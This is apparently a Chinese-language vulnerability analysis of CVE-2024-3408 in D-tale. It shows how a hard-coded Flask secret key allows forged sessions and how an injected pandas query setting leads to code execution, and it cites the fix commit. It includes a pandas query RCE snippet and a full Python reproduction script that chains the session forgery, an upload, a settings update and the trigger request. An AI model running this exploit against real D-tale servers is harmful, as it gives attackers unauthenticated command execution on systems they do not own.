# CVE-2024-3408 D-tale bypassRCE分析-先知社区

> **来源**: https://xz.aliyun.com/news/16024  
> **文章ID**: 16024

---

## 前言

1、D-tale

[一个集合Flask和React完成前后端开发的框架，主要用于查看和分析Pandas数据结构的简单方法。](https://github.com/man-group/dtale)

该漏洞是一个bypass身份验证之后的RCE组合拳，攻击者首先使用已知SECRET\_KEY伪造会话cookie，然后上传恶意DataFrame操纵应用程序设置以启用自定义过滤器查询，通过注入恶意查询，攻击者触发在服务器上执行任意代码。

2、DF命令执行



```
#DF的简单RCE测试
import pandas as pd
import os

# 创建一个简单的 DF
data = {
    'A': [1, 2, 3],
    'B': [4, 5, 6]
}
df = pd.DataFrame(data)

# 这是我们的恶意 query 参数，执行系统命令
query = '~(@pd.core.frame.com.builtins.__import__("os").system("calc"))'

# 使用 query 执行命令
try:
    # 执行 query
    df.query(query)
    print("Query executed successfully.")
except Exception as e:
    print(f"Error: {e}")

```

## 分析

### bypass

在上文中已经提到此应用后端基于Flask，所以我们首先讲一下flask的session

Flask的session生成使用到的是itsdangerous的URLSafeTimedSerializer函数，涉及到4个参数

在sessions.py中我们可以找到除了app.secret\_key之外的三个参数值，如下图



而在dtale-3.10.0/dtale/app.py，完成Flask的初始配置时使用一个默认硬编码来作为[app.config["SECRET\_KEY"]](https://geek-docs.com/flask/flask-questions/36_flask_demystify_flask_appsecret_key.html#google_vignette)，所以结合上文提到的flask默认session加密参数，至此就可以完全的通过URLSafeTimedSerializer计算出有效的session值了。



针对这一点，官方在后续的代码上通过增加自定义10位随机数的secret\_key来做加固：<https://github.com/man-group/dtale/commit/32bd6fb4a63de779ff1e51823a456865ea3cbd13#diff-d1e29aad7e0d8c7f088998620536dc51e3b33bd57d11fa9e736d3eee9827db89R299>



### rce

问题出在dtale的run\_query函数中，重点关注其中第二个参数 query



继续跟进下方代码，`highlight_filter` 只是控制是否返回过滤的行索引，而不影响查询本身的执行。 所以无论前面参数如何，只要进入到run\_query，都会执行以下代码：

```
df.query(query if is_pandas25 else query.replace("`", ""), local_dict=context_vars or {}, engine=engine)
```



所以只要可控`query`参数的值，就可以利用df.query进行命令执行了。

接下来再在dtale看到调用run\_query的地方，会看到调用run\_query的时候，会通过调用其他函数给第二个参数query赋值，例如这个路由：@dtale.route("/data-export/<data\_id>")</data\_id>



继续跟进build\_query函数，该函数会根据data\_id在全局设置中查找并将对应设置的值放在curr\_settings中，并返回inner\_build\_query(curr\_settings, query)



继续跟进inner\_build\_query，简单来说，该函数将所有查询片段拼接成一个完整的查询字符串，也就是说，当我们传入一个利用pd进行rce的字符串后，会直接返回



最后只要想办法控制settings中query的值，也就可以串联上面的调用链进行rce了。所以我们接下来查看dtale中对settings做变更的对应路由：@dtale.route("/update-settings/<data\_id>")</data\_id>



只要调用update-settings的时候加上一个`data_id（随机上传一个文件）`,然后通过参数`settings`传入字典形式的值即可。所以整个rce的路径就清晰了。

```
URLSafeTimedSerializer -> 获取 session
@dtale.route("/upload", methods=["POST"]) -> 获取 data_id
@dtale.route("/update-settings/<data_id>") -> 更新setting中query值
@dtale.route("/data-export/<data_id>")  -> 调用run_query
run_query -> 调用df.query
df.query -> RCE

```

## 复现

环境：win11 dtale-3.10.0

```
import json, hashlib
from argparse import ArgumentParser
from urllib.parse import quote
from requests import Session
from itsdangerous import URLSafeTimedSerializer

if __name__ == "__main__":
    parser = ArgumentParser()
    parser.add_argument("--url", default="http://target:40000")
    args = parser.parse_args()

    url_base = f"{args.url}/dtale"
    cmd = "calc"  # 默认命令

    signer_kwargs = {"key_derivation": "hmac", "digest_method": staticmethod(hashlib.sha1)}
    session = URLSafeTimedSerializer("Dtale", salt="cookie-session", signer_kwargs=signer_kwargs).dumps({"logged_in": True, "username": "whatever"})

    with Session() as s:
        s.cookies["session"] = session
        rsp = s.post(f"{url_base}/upload", files={"poc.csv": ("poc.csv", b"A,B\n1,1\n", "text/csv")})
        assert rsp.json()["success"]
        data_id = rsp.json()["data_id"]
        settings = {"query": f'@pd.core.frame.com.builtins.__import__("os").system("""{cmd} #""")'}
        settings = quote(json.dumps(settings))
        rsp = s.get(f"{url_base}/update-settings/{data_id}?settings={settings}")
        assert rsp.json()["success"]
        s.get(f"{url_base}/edit-cell/{data_id}")

```


